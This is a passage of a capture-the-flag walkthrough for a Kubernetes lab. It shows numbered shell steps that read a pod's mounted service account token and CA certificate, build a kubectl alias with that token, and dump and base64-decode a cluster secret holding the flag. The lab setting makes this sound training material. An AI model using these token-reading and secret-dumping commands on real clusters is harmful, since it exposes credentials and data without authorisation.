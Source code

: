     ```shell
    ls -lart /
    ```

58. There's a `/data` directory that is a little unusual.  Check it out:

    ```shell
    ls /data
    ```

59. It looks like we've found a HINT.txt file - let's see its contents:

    ```shell
    cat /data/HINT.txt
    ```

60. Read the hint and get a FLAG:

    ```
    Congratulations! You've made it to the cereal-rainbow-books namespace.

    First, grab your flag:  flag-cereal.

    Second, go check out the services in the phreaks-nynex-kingdom namespace.

    NOTE: this has two tricky bits...
    ```


61. We'll have to use a new kubectl alias to use this pod's service account token:

    ```shell
    tokendir="/run/secrets/kubernetes.io/serviceaccount"
    alias kubectl="kubectl --token=$(cat $tokendir/token) \
    --server="https://kubernetes.default.svc.cluster.local" \
    --certificate-authority=$tokendir/ca.crt \
    -n $(cat $tokendir/namespace)"
    ```

62. Go get the flag!

    ```shell
    kubectl get secret flag-cereal -o yaml | egrep -A 1 '^data'
    ```

63. Parse that secret

    ```shell
    kubectl get secret flag-cereal -o yaml | egrep -A 1 '^data' | \
     grep flag | awk '{print $2}' | base64 -d
    ```

64. Note that the flag is similar to this:

    ```
    cereals-rainbow-books-FLAG-b2a6325d-613e-4fc7-9a75-1fbbd4317662
    ```

65. Let's explore the services in the phreaks-nynex-kingdom namespace:
